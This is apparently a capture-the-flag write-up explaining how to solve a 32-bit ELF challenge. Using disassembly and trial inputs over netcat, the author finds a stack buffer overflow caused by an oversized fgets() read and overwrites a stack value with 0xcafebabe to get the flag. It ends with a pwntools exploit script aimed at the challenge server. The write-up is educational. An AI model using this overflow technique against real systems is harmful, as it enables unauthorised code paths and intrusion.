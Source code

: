 Are you awake?
20

Are you awake?

nc areyouawake.chals.fuzzy.land 5503


Solution
========

First of all, let's analyze the binary file:
```
$ file awake
awake: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=759b6f50dbea9e6924bab76a7add1c4bf121e5c2, not stripped
```
```
$ checksec awake
[*] 'awake'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
It's a 32bit Linux ELF binary with stack protection disabled ("No canary found")
but with a non-executbale stack ("NX enabled"). Furthermore the file is
little-endian ("LSB executable"). That's already some usefull
information, so let's now find out what the program does. We execute the program and enter ```yes```:

```
$ nc areyouawake.chals.fuzzy.land 5503
```
```
Are you awake? yes
Nope, you are still sleeping! (0xdeadbeef)
😴
```
The program gives us a hint: ```(0xdeadbeef)```.
Obviously there's a variable which stores the value ```0xdeadbeef``` which we
might have to change to some specific value in order to get the flag. Since we
don't have the source code available, we have to disassemble the binary:

```
$ objdump -d awake
```
```
0804854b <check_awake>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%esp
 8048551:	83 ec 0c             	sub    $0xc,%esp
 8048554:	68 d0 86 04 08       	push   $0x80486d0
 8048559:	e8 72 fe ff ff       	call   80483d0 <printf@plt>
 804855e:	83 c4 10             	add    $0x10,%esp
 8048561:	a1 40 a0 04 08       	mov    0x804a040,%eax
 8048566:	83 ec 04             	sub    $0x4,%esp
 8048569:	50                   	push   %eax
 804856a:	68 28 01 00 00       	push   $0x128
 804856f:	ff 75 08             	pushl  0x8(%ebp)
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 8048577:	83 c4 10             	add    $0x10,%esp
 804857a:	90                   	nop
 804857b:	c9                   	leave
 804857c:	c3                   	ret

0804857d <func>:
 804857d:	55                   	push   %ebp
 804857e:	89 e5                	mov    %esp,%ebp
 8048580:	81 ec 88 00 00 00    	sub    $0x88,%esp
 8048586:	83 ec 08             	sub    $0x8,%esp
 8048589:	68 28 01 00 00       	push   $0x128
 804858e:	8d 85 78 ff ff ff    	lea    -0x88(%ebp),%eax
 8048594:	50                   	push   %eax
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
 804859a:	83 c4 10             	add    $0x10,%esp
 804859d:	8b 45 08             	mov    0x8(%ebp),%eax
 80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
 80485a5:	75 2a                	jne    80485d1 <func+0x54>
 80485a7:	83 ec 0c             	sub    $0xc,%esp
 80485aa:	68 e0 86 04 08       	push   $0x80486e0
 80485af:	e8 3c fe ff ff       	call   80483f0 <puts@plt>
 80485b4:	83 c4 10             	add    $0x10,%esp
 80485b7:	83 ec 0c             	sub    $0xc,%esp
 80485ba:	68 29 87 04 08       	push   $0x8048729
 80485bf:	e8 3c fe ff ff       	call   8048400 <system@plt>
 80485c4:	83 c4 10             	add    $0x10,%esp
 80485c7:	83 ec 0c             	sub    $0xc,%esp
 80485ca:	6a 01                	push   $0x1
 80485cc:	e8 3f fe ff ff       	call   8048410 <exit@plt>
 80485d1:	8b 45 08             	mov    0x8(%ebp),%eax
 80485d4:	83 ec 08             	sub    $0x8,%esp
 80485d7:	50                   	push   %eax
 80485d8:	68 38 87 04 08       	push   $0x8048738
 80485dd:	e8 ee fd ff ff       	call   80483d0 <printf@plt>
 80485e2:	83 c4 10             	add    $0x10,%esp
 80485e5:	83 ec 0c             	sub    $0xc,%esp
 80485e8:	68 5e 87 04 08       	push   $0x804875e
 80485ed:	e8 fe fd ff ff       	call   80483f0 <puts@plt>
 80485f2:	83 c4 10             	add    $0x10,%esp
 80485f5:	83 ec 0c             	sub    $0xc,%esp
 80485f8:	6a 00                	push   $0x0
 80485fa:	e8 11 fe ff ff       	call   8048410 <exit@plt>

080485ff <main>:
 80485ff:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 8048603:	83 e4 f0             	and    $0xfffffff0,%esp
 8048606:	ff 71 fc             	pushl  -0x4(%ecx)
 8048609:	55                   	push   %ebp
 804860a:	89 e5                	mov    %esp,%ebp
 804860c:	51                   	push   %ecx
 804860d:	83 ec 04             	sub    $0x4,%esp
 8048610:	a1 44 a0 04 08       	mov    0x804a044,%eax
 8048615:	6a 00                	push   $0x0
 8048617:	6a 02                	push   $0x2
 8048619:	6a 00                	push   $0x0
 804861b:	50                   	push   %eax
 804861c:	e8 0f fe ff ff       	call   8048430 <setvbuf@plt>
 8048621:	83 c4 10             	add    $0x10,%esp
 8048624:	83 ec 0c             	sub    $0xc,%esp
 8048627:	68 ef be ad de       	push   $0xdeadbeef
 804862c:	e8 4c ff ff ff       	call   804857d <func>
 8048631:	83 c4 10             	add    $0x10,%esp
 8048634:	b8 00 00 00 00       	mov    $0x0,%eax
 8048639:	8b 4d fc             	mov    -0x4(%ebp),%ecx
 804863c:	c9                   	leave
 804863d:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048640:	c3                   	ret
 8048641:	66 90                	xchg   %ax,%ax
 8048643:	66 90                	xchg   %ax,%ax
 8048645:	66 90                	xchg   %ax,%ax
 8048647:	66 90                	xchg   %ax,%ax
 8048649:	66 90                	xchg   %ax,%ax
 804864b:	66 90                	xchg   %ax,%ax
 804864d:	66 90                	xchg   %ax,%ax
 804864f:	90                   	nop
 ```
In the disassembly of ```<main>``` we can see a function call to ```<func>``` with one
function argument: ```0xdeadbeef```:
```
8048627:	68 ef be ad de       	push   $0xdeadbeef
804862c:	e8 4c ff ff ff       	call   804857d <func>
```

The disassembly of ```<func>``` tells us, that the function argument (in this particular case it's 0xdeadbeef) is then compared with the hard coded value 0xcafebabe:
```
...
80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
...
```
Let's see if we can change the variable's content from 0xdeadbeef to something
else:
```
$ python -c 'print "A"*142' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbeef)
😴
```
Hm, nothing happened so far. But what if we add another A to the payload?
```
$ python -c 'print "A"*143' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbe00)
😴
```
Here we go! We just successfully modified the value from ```0xdeadbeef``` to ```0xdeadbe00```. That's most likely caused by the [NULL termination](https://stackoverflow.com/questions/2037209/what-is-a-null-terminated-string) of the C library function ```fgets()``` which reads in our input. The call to function ```fgets()``` can be found in the disassembly of the function ```<check_awake>```...
```
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 ```
...which in turn is called within function ```<func>```:
```
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
```
So let's continue to add some more A's to our payload:
```
$ python -c 'print "A"*144' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdead000a)
😴
$ python -c 'print "A"*145' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xde000a41)
😴
$ python -c 'print "A"*146' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa4141)
😴
$ python -c 'print "A"*147' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa414141)
😴
$ python -c 'print "A"*148' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0x41414141)
😴
```
Now we have completely overwritten the variable and therefore replaced the value ```0xdeadbeef``` with our A's which are represented by the ASCII hex code ```0x41```. 

In the beginning we found out that the binary is 32 bit. 8 bits are 1 byte. And each one of our A's is 1 byte as well. Therefore 4 A's form a 32 bit address. 
In order to get the flag, all we have to do is to replace ```0x41414141``` with the previously gathered value ```0xcafebabe```. As mentioned earlier, the binary is little-endian. Therefore we have to store the 4 bytes in reverse order. So ```0xca``` ```0xfe``` ```0xba``` ```0xbe``` becomes ```0xbe``` ```0xba``` ```0xfe``` ```0xca```:
```
$ python -c 'print "A"*144 + "\xbe\xba\xfe\xca"' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Oh, good morning :)
What better way to start the day than with a flag ;)
LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}
```
This can even be simplified by using the [packing](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing) function of the so-called [pwntools](https://github.com/Gallopsled/pwntools) Python library:
```
#!/usr/bin/python

import pwn
import struct

p = pwn.remote( "areyouawake.chals.fuzzy.land", 5503 )
#p = pwn.process( "./awake" )

payload = "A" * 144
payload += pwn.p32( 0xcafebabe )

print( p.recv() )
p.sendline( payload )
print( p.recv() )
print( p.recv() )
```
```
$ python exploit.py
[+] Opening connection to areyouawake.chals.fuzzy.land on port 5503: Done
Are you awake?
Oh, good morning :)
What better way to start the day than with a flag ;)

LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}

[*] Closed connection to areyouawake.chals.fuzzy.land port 5503
```
That's it.
